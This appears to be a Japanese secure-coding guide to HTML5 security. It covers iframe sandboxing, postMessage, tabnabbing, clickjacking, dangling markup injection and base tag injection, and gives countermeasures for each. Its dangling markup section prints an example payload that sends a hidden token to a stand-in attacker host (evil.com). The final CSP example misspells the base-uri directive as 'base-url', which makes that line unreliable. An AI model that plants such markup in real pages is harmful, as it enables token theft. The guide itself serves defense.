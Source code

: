 ```yaml
---
title: HTML5 Security
---
```


## iframeのsandbox化

iframeで信頼できないコンテンツを表示する場合、sandbox属性を付与することで、iframe内の制御に様々な制約を適用できる。各種制御それぞれに制約有無を指定することも可能。

sandbox化されたiframeはユニークなオリジンが割り振られる。それにより、コンテキストが分離されるため、安全性が増す。

詳細は[Mozilla](https://developer.mozilla.org/ja/docs/Web/HTML/Element/iframe#attr-sandbox)を参照。

## オリジン間通信

異なるオリジン間で通信をする際、[postMessage](https://developer.mozilla.org/ja/docs/Web/API/Window/postMessage)で実現可能。

ただし、次のとおりいくつかの注意事項がある。

### postMessageの送信先（第二引数）は可能な限り指定する

送信先を指定することにより、情報を受け取るターゲットを絞ることができる。

:::danger
`*`の指定ですべてのオリジンをターゲットにできるが、その場合は機密情報を含めるべきではない。
:::

### 受信側は送信元をチェックした上で処理する

イベントリスナに渡される`event.origin`で送信元をチェックする。

```js
window.addEventListener("message", (event) => {
  if (event.origin === "https://example.com") {
    // 処理
  }
});
```

## タブナビング攻撃

タブナビング攻撃については[こちら](https://en.wikipedia.org/wiki/Tabnabbing)を参照。

リンクを別タブで開いたり、ポップアップウィンドウを表示した場合、開かれたコンテンツ側で`window.opener`プロパティを参照すると、タブナビング攻撃を仕掛けることが可能。

対処としては、`rel="noopener"`属性をアンカータグに追加する。

```html
<a href="https://example.com" target="_blank" rel="noopener">LINK</a>
```

## クリックジャッキング攻撃やUIリドレス攻撃への対処

クリックジャッキング攻撃については[こちら](https://www.ipa.go.jp/security/vuln/websecurity-HTML-1_9.html)を参照。

対処としては、iframeによる組込みを制限すること。その手段として、次の2つが挙げられる。

- X-Frame-Optionsヘッダー
- Content-Security-Policyヘッダーのframe-ancestorsディレクティブ

## Dangling markup injection

攻撃者に次のような不正なHTMLタグをページに挿入されることで、トークンなどを盗まれてしまう。

```html
<img src="https://evil.com/log.php?
```

上記はimgタグおよび、src属性を閉じていない。そのため、ブラウザのパーサーは適切な終了シーケンスを探す。
もし次のように、inputタグ（hidden属性）でトークンなどの重要な情報を指定していたら、`https://evil.com/log.php`に送信されてしまう。

```html
<img src="https://evil.com/log.php?
・・・
<input type="hidden" name="token" value="xxxx-yyyy" />
```

対処としては、次の2点。

- 適切にエンコードし、HTMLインジェクション自体を防ぐ
- CSPを使って、攻撃者のサーバーからのリソースロードを防ぐ

  ```text
  Content-Security-Policy: img-src 'self'
  ```

## Base tag injection

攻撃者にbaseタグを挿入されると、すべての相対URLが攻撃者のサーバーを指すようになってしまう。

対処としては、次の2点。

- 適切にエンコードし、HTMLインジェクション自体を防ぐ
- CSPを使って、有効なベースURLを限定しておく

  ```text
  Content-Security-Policy: base-url 'self'
  ```
